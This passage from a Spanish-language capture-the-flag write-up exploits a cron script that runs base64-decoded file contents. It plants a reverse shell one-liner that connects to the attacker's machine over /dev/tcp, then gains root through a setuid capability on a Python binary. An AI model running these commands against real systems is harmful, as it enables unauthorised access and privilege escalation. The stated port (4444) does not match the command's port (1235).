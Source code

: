Vemos un usuario `kvzlx`, veamos si podemos ver lo que hay en su directorio en `/home`

![[Pasted image 20241103223538.png]]

Efectivamente podemos ver el contenido de esta carpeta, vemos un script de `bash`, este script hace lo siguiente

- Recibe una contraseña del archivo `.wp-encrypted.txt`
- Decodifica la contraseña que está en `base64`
- Almacena la contraseña en `/tmp/decoded.txt`
- Ejecuta la contraseña como un comando

## Command Injection

Como está ejecutando lo que recibe del archivo `.wp-encrypted.txt` sin sanitizar el contenido, podemos inyectar un comando a nivel de sistema en este archivo, enviemos una `shell` como el usuario que ejecuta este script a nuestra máquina atacante por el puerto `4444` 

~~~ bash
echo "bash -c 'bash -i >& /dev/tcp/172.17.0.1/1235 0>&1'"| base64
~~~

![[Pasted image 20241103233558.png]]

En unos segundos recibimos una  `shell` como el usuario `kvzlx` en `nc`

![[Pasted image 20241103234633.png]]

Nuevamente haremos un tratamiento para usar esta consola de forma más cómoda y con nuestras proporciones

![[Pasted image 20241103234757.png]]

Si hacemos una vista de los procesos que este usuario ejecuta, podemos ver que se está ejecutando el archivo `.cron_script.sh` que vimos anteriormente

~~~ bash
ps -aux
~~~

![[Pasted image 20241103235221.png]]

Siempre que tengamos acceso a un nuevo usuario debemos volver a buscar formas de escalar privilegios. como `sudo`, `suid`, `capabilities`, etc. En este caso obtuve el mismo resultado al listar las capabilities del binario `/opt/python`

~~~ bash
/sbin/getcap -r / 2>/dev/null
~~~

![[Pasted image 20241104001110.png]]

## Root Time

Intentaremos usar la `capability` que tenemos asignada en `/opt/python` para escalar nuestro privilegio de igual forma que lo intentamos con el usuario `www-data`

~~~ python
/opt/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
~~~

![[Pasted image 20241103235740.png]]